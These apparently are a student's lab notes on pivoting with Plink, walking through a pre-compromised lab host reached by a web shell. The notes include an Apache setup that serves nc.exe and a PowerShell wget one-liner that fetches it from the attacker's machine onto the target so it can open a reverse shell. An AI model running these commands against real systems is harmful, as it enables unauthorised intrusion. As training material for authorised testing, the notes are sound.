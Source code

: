 We'll use Plink in this section, since in a security assessment, we will more likely have a shell than GUI access
+ The Plink manual explains that much of the functionality the OpenSSH client offers is also built into Plink (although one notable feature Plink doesn't have is remote dynamic port forwarding).
+ Many 3rd-party SSH clients for Windows provide port forwarding features. We're using Plink in this case because it's common, lightweight, and specifically designed to run on the command line

Let's get familiar with Plink by using it in the lab in a revised scenario
+ In this scenario, we find that `MULTISERVER03` now has a web application on TCP port 80 exposed
+ All other inbound ports are blocked by a firewall, so RDP is no longer available either
+ The layout is much like the following diagram:
![[Pasted image 20231215154005.png]]

We can compromise `MULTISERVER03` through the web application, drop a _web shell_ on it, and gain a reverse shell using that
+ We have previously found credentials we could use to connect to the RDP service
+ This is blocked by the firewall, so we can't connect directly
+ The OpenSSH client has also been removed, so we can't create a remote port forward using that

However, we have another option: we _can_ create a remote port forward using Plink
+ First, we will get an interactive reverse shell from `MULTISERVER03`
+ From our initial exploitation, we uploaded a basic web shell at **/umbraco/forms.aspx** 
+ We can browse to this URL and run whatever Windows commands we want - these will be run as the _iis apppool\defaultapppool_ user
+ We can use this web shell to download **nc.exe** to MULTISERVER03, which we will then use to send a reverse shell back to our Kali machine
	+ **NOTE**: MULTISERVER03 is already "pre-compromised" in the lab. At this point, you can browse to **/umbraco/forms.aspx** on the HTTP server on port 80 on `MULTISERVER03`. You should see a webshell page, which will let you run arbitrary commands on `MULTISERVER03`

To download **nc.exe** onto `MULTISERVER03`, we first need to host it on a server that `MULTISERVER03` can access
+ We can easily configure _Apache2_ on our Kali machine to do this
+ Apache2 is installed by default on Kali, so we just need to start the **apache2** service
```
sudo systemctl start apache2
```

We can then find **nc.exe** from our Kali **windows-resources/binaries** directory and copy it to the Apache2 web root
```
kali@kali:~$ find / -name nc.exe 2>/dev/null
/usr/share/windows-resources/binaries/nc.exe

kali@kali:~$ sudo cp /usr/share/windows-resources/binaries/nc.exe /var/www/html/
```

Once the executable's there, we should be able to download it to `MULTISERVER03` 
+ We will use a _PowerShell_ _wget_ one-liner from our web shell to download **nc.exe**
+ From the web shell, we'll run a command that will instruct PowerShell to download **nc.exe** from our Kali machine web server (**-Uri `http://192.168.118.4/nc.exe`**) and write it to **C:\Windows\Temp** on MULTISERVER03 with **-OutFile**
+ Put together, we run the following:
```
powershell wget -Uri http://192.168.118.4/nc.exe -OutFile C:\Windows\Temp\nc.exe
```
